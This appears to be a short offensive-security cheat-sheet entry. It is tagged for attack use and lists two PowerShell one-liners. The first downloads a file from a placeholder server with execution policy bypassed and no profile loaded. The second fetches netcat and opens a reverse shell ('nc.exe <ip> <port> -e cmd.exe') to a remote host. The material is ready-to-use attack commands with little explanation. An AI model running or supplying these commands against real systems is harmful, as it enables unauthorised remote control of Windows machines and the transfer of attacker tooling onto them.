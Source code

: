 # powershell

% powershell, download

## Download with powershell
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<dest_file>')"
```

## Download and execute with powershell
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT #cat/ATTACK/EXPLOIT 
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile New-Object System.Net.WebClient.DownloadFile('<url_file>','nc.exe'); nc.exe <ip> <port> -e cmd.exe
```
